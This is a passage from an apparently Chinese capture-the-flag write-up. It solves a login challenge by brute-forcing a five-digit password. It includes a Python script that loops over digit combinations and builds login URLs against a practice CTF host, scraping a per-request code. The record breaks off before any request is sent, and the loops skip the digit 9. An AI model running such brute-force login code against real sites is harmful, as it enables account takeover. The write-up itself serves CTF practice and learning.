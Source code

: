 <center>![这里写图片描述](img/72fcb82d842e72e16055f6ce674f332c.png)</center>

### **登录**

这个真心没什么好说的，源码中存在提示说密码是五位数，然后直接爆破就好了！
爆破代码如下

```
 import requests,re,sys
type = sys.getfilesystemencoding()
url = 'http://ctf1.shiyanbar.com/shian-s/'
s=requests.session()
for s1 in range(0,9):
    for s2 in range(0,9):
        for s3 in range(0,9):
            for s4 in range(0,9):
                for s5 in range(0,9):
                    html = s.get(url).content
                    number=re.findall(r'<br><br>(.*?)<br><br>',html,re.S)
                    temp = str(s1)+str(s2)+str(s3)+str(s4)+str(s5)
                    tempurl=url+'index.php?username=admin&password='+str(temp)+'&randcode='+str(number[1])
```